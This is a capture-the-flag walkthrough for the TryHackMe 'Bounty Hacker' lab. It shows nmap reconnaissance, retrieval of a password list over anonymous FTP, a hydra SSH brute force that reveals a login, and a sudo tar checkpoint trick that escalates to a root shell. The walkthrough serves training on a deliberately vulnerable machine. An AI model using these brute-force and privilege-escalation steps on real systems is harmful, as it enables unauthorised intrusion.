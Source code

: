 ```bash
# PLATFORM          . THM
# CTF NAME          . Bounty Hacker
# DESCRIPTION       . You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/cowboyhacker
```

```bash
sudo nmap -sSVC -T5 10.10.150.34 -p- -oN BountyHacker
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


```

- We see that `FTP` allows for `anonymous` login. 

- Let's connect using `ftp -A 10.10.150.34`

```bash
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.

-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

```locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

```task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

- The `locks.txt` file seems to be a dictionary of passwords, so I've tried bruteforcing the `ssh` with both `vicious` and `lin` as username.

```bash
hydra -l vicious -P ~/workspace/ctf_workspace/locks.txt 10.10.150.34 ssh
hydra -l lin -P ~/workspace/ctf_workspace/locks.txt 10.10.150.34 ssh
```

```
[DATA] attacking ssh://10.10.150.34:22/
[22][ssh] host: 10.10.150.34   login: lin   password: RedDr4gonSynd1cat3
```

- Once we're logged in to the machine, I've checked `sudo -l` and we can run `tar` as sudo.

- According to GTFObins, this could lead to a privilege escalation vector by using 

```bash

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- First flag is at `/home/lin/user.txt`
- Second flag is at `/root/root.txt`

